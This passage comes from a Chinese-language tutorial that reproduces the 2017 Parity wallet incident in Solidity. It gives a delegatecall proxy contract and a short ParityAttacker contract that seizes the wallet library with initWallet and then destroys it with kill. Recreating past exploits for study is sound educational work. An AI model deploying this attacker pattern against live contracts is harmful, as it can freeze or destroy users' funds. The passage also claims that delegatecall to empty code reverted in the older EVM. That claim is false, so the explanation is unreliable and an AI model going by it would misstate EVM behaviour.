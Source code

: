 ### 6.4 WalletProxy.sol （模拟11月事故的代理钱包）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract WalletProxy {
    address public lib;

    constructor(address _lib) {
        lib = _lib;
    }

    // fallback() external payable {
    //     (bool success, ) = lib.delegatecall(msg.data);
    //     require(success, "delegatecall failed");
    // }

    fallback() external payable {
        address libAddr = address(lib);
        // 确保库被清空时直接 revert
        require(libAddr.code.length > 0, "Library destroyed");

        (bool success, bytes memory res) = lib.delegatecall(msg.data);
        require(success, "delegatecall failed");
        assembly {
            return(add(res, 32), mload(res))
        }
    }

    receive() external payable {}
}
```

**为什么不使用注释中的 `fallback()` 函数？**  

* 这里的关键：**即使库代码被清空**，delegatecall 对不存在的地址 **不会立即 revert**，而是返回空数据，且在 Solidity >=0.8.0 时默认 `success = true`。
* 所以即使 `vm.etch` 清空了库地址，fallback delegatecall 返回的 `success` 仍然是 `true`，proxy 调用不会失败，导致 `assertFalse(ok2)` 失败。

> 这是现代 EVM 的行为，与 2017 年不同。在旧 EVM 下，delegatecall 到不存在地址会直接 revert；在现代 EVM 下，delegatecall 为空代码仍然返回成功，但 `res` 为空。


### 6.5 ParityAttacker.sol （模拟11月攻击者）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./WalletLibrary.sol";

contract ParityAttacker {
    WalletLibrary public lib;

    constructor(address _lib) {
        lib = WalletLibrary(_lib);
    }

    function attack() external {
        lib.initWallet(address(this));
        lib.kill();
    }
}
```
